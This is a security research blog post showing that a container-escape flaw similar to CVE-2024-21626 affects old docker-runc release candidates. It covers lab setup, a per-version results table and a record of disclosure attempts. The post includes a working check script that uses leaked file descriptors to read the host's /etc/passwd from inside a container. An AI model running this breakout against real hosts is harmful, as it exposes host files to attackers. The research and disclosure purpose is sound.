






The content of this article is for educational and research use only. The information provided must not be implemented in a real-world environment, and no responsibility is assumed for any consequences resulting from its application in a real-world scenarios. You are responsible for any risks arising from any behavior not related to the above scope.


---
# 1. Introduction
## 1.1 Why this article?
During my analysis about [CVE-2024–21626](https://sk3pper.github.io/posts/cve-2024-21626/playing-with-cve-2024-21626/) I discovered some interesting thing in old legacy runc components (that is not mentioned in the [security advisory GHSA-xr7r-f8xq-vfvv](https://github.com/advisories/GHSA-xr7r-f8xq-vfvv)). In this article I want to show you what I found and what I did. To understand what it is, how it works and a deep dive on CVE-2024–21626 vulnerability read my previously article [here](https://sk3pper.github.io/posts/cve-2024-21626/playing-with-cve-2024-21626/).

# 2. Implications
This scenario is quite different from the [CVE-2024-21626](https://sk3pper.github.io/posts/cve-2024-21626/playing-with-cve-2024-21626/) because:
1. It can be triggered in **older Linux versions** that lack the `openat2` syscall.
2. The leaked file descriptor is located in the `/run/runc/<container>/` path, which contains the state for running containers, rather than the host’s `/sys/fs/cgroup` directory.

As a result, older docker-runc versions are also vulnerable to the ***same attack technique***. Although the vulnerability itself differs, the result is the same: **gaining access to the host filesystem**. The key takeaway is to not rely solely on security advisories - test everything thoroughly. Fully understand each CVE, how it works, experiment with it in a safe environment, and explore edge cases.

The constraint are more relaxed since the presence of openAt2 is not strictly necessary
<div align="center">

| Component             | CVE-2024-21626                   |  CVE-2024-21626 in old                  |
| -------------         |:-------------:                   |  :-------------:                        |
| runC/docker-runC      |   $≥$ v1.0.0-rc93 <br> $≤$ 1.1.11|    $≥$ 1.0.0-rc2 <br> $≤$ 1.0.0-rc4+dev |
| Docker                |   $<$ 25.0.2                     |    $≥$ 17.3.1 <br> $≤$ 17.09.1          |
| Linux kernel          |     $≥$ 5.6                      |           4.15.0                        |

</div>

# 3. Setup environment
##### A. Download and install [Ubuntu 18.04.6 LTS (Bionic Beaver)](https://releases.ubuntu.com/18.04/) version 
During the installation do not check the box to download update system.

##### B. Install the vulnerable docker version and related components
- Go to https://download.docker.com/linux/static/stable/x86_64/ and download the old version ***docker-X.Y.Z-ce.tgz*** to test


- Extract it, copy the content to /usr/bin path and run Docker daemon.
    ```shell
    cd Downloads/
    tar xzvf <docker-X.Y.Z-ce.tgz>
    sudo cp docker/* /usr/bin/
    sudo dockerd &
    ```

##### C. Check the installed versions
```shell
sudo docker version
containerd --version
uname -r
```

In old versions we have **docker-runc** instead of **runc**. Hence check it:
```shell
ls -la /usr/bin | grep docker
    -rwxr-xr-x  1 root root    14128576 mar 19 10:54 docker
    -rwxr-xr-x  1 root root     8932648 mar 19 10:54 docker-containerd
    -rwxr-xr-x  1 root root     8381448 mar 19 10:54 docker-containerd-ctr
    -rwxr-xr-x  1 root root     3047368 mar 19 10:54 docker-containerd-shim
    -rwxr-xr-x  1 root root    39989264 mar 19 10:54 dockerd
    -rwxr-xr-x  1 root root      772400 mar 19 10:54 docker-init
    -rwxr-xr-x  1 root root     2534781 mar 19 10:54 docker-proxy
    -rwxr-xr-x  1 root root     7092608 mar 19 10:54 docker-runc

ls -la /usr/bin| grep runc
    -rwxr-xr-x  1 root root       10232 mar 18  2018 bdftruncate
    -rwxr-xr-x  1 root root     7092608 mar 19 10:54 docker-runc
    -rwxr-xr-x  1 root root       35000 gen 18  2018 runcon
    -rwxr-xr-x  1 root root       39096 gen 18  2018 truncate
```

Check the version of **doker-runc/runc**

```shell
runc --version
docker-runc -v
```

# 4. Check if the target is vulnerable and find the right fd 
Run [checkVulnerability.sh](https://github.com/Sk3pper/CVE-2024-21626-old-docker-versions) and see if the file is printed in the the terminal

```shell
# checkVulnerability.sh
#! /bin/bash
for i in {4..20}; do
    sudo docker run -it --rm -w /proc/self/fd/$i alpine:3.14.3 sh -c "tail /proc/self/cwd/../../../etc/passwd"
    echo ""
done
```

```shell
# clone CVE-2024-21626-old-docker-versions repository
git clone git@github.com:Sk3pper/CVE-2024-21626-old-docker-versions.git

# run checkVulnerability.sh
chmod +x checkVulnerability.sh
./checkVulnerability.sh
```

For this example I used `docker-17.03.1-ce` version.


# 5. Try the exploit
For this example I used `docker-17.03.1-ce` version.



# 6. Tests Results
Below are the results of my analysis, organized by Docker version and the associated runc version used.
<div align="center">

| Docker Version        | docker-runc/runc version  |  Leaked fd number |
| -------------         |:-------------:  |  :-------------:  |
| docker-17.03.1-ce.tgz | 1.0.0-rc2       | /proc/self/fd/4   |
| docker-17.03.2-ce.tgz | 1.0.0-rc2       | /proc/self/fd/4   |
| docker-17.06.0-ce.tgz | 1.0.0-rc3       | /proc/self/fd/5   |
| docker-17.06.1-ce.tgz | 1.0.0-rc3       | /proc/self/fd/5   |
| docker-17.06.2-ce.tgz | 1.0.0-rc3       | /proc/self/fd/5   | 
| docker-17.09.0-ce.tgz | 1.0.0-rc4+dev   | /proc/self/fd/5   |
| docker-17.09.1-ce.tgz | 1.0.0-rc4+dev   | /proc/self/fd/5   | 
| docker-17.12.0-ce.tgz | 1.0.0-rc4+dev   |         ❌         | 
| docker-17.12.1-ce.tgz | 1.0.0-rc4+dev   |         ❌         | 
| docker-18.03.0-ce.tgz |                 |         ❌         | 
| docker-18.06.3-ce.tgz | 1.0.0-rc5+dev   |         ❌         | 
| docker-18.09.0.tgz    | 1.0.0-rc5+dev   |         ❌         |

</div>

<br>

Here is the screenshot showing the three different vulnerable versions.

| 1.0.0-rc2            |  1.0.0-rc3 |  
:-------------------------:|:-------------------------:|
  |   |

<div align="center">

| 1.0.0-rc4+dev |
|:-------------:|
| |
</div>

<br>

As with [CVE-2024-21626](https://sk3pper.github.io/posts/cve-2024-21626/playing-with-cve-2024-21626/), the different types of attacks are still possible.

# 7. Responsible disclosure
I tried to contact `security@docker.com`, `security@opencontainers.org`, and try to open a `CVE`. I received the following replies:

| Request               | Reply  |  
| -------------         |:-------------| 
| security@docker.com (19/03/24) |The versions you have listed are all EOL versions of software (~7 years old) and are no longer patched or maintained by Docker.  If you have a concern about the versions or wording listed in the existing GHSA-xr7r-f8xq-vfvv advisory ("affected versions: >= 1.0.0-rc93, <= 1.1.11"), then the correct channel to report it should be to the OCI security mailbox: https://github.com/opencontainers/.github/blob/main/SECURITY.md  Thank you for reaching out. Let us know if there is anything else we can do
| security@opencontainers.org (20/03/24) |no response
| CVE-MITRE (15/05/2024)                |We normally do not assign CVE IDs to issues that exist only in release candidates.  https://www.cve.org/CVERecord?id=CVE-2024-21626 had affected released versions of runc, such as release 1.1.11.|


# 8. Conclusion & Takeaways
What I find difficult to understand is why it is so challenging to update the versions impacted by this CVE. While I understand that these are older components, I also believe that legacy environments may still be vulnerable. However, since the security advisory does not mention all the potential versions of Docker, runc, or their combinations, cybersecurity experts may mistakenly think that a version is not vulnerable.

Therefore, never trust security advisories blindly. Understand each CVE, how it works under the hood, experiment with it in a safe environment, and test it in every context - including versions that may seem unaffected.
